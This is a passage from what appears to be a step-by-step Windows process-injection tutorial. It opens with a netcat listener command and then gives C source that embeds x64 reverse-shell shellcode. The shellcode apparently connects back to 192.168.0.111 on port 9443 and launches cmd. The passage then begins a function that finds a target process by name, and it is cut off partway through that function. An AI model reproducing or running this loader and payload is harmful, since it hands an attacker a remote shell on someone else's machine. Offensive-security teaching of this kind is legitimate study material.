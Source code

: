 ### Step 6 - Assembling the pieces

Before doing anything, make sure to start your listener with:

```bash
nc -nvlp 9443
```

After combining the pieces, the code looks something like this:

```C
#include <Windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD GetProcessHandle(IN LPWSTR processName, OUT HANDLE hProcess, OUT DWORD* pID);

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x24\xe3\xc0\xa8\x00\x6f"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

BOOL GetProcessHandle(IN LPWSTR processName, OUT HANDLE* hProcess, OUT DWORD* pID)
{
	DWORD pid = 0;
	HANDLE hP = NULL;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		printf("[ERROR] Invalid HANDLE to process snapshots [%d]\n", GetLastError());
		return FALSE;
	}
	PROCESSENTRY32 pe;
	pe.dwSize = sizeof(pe);

```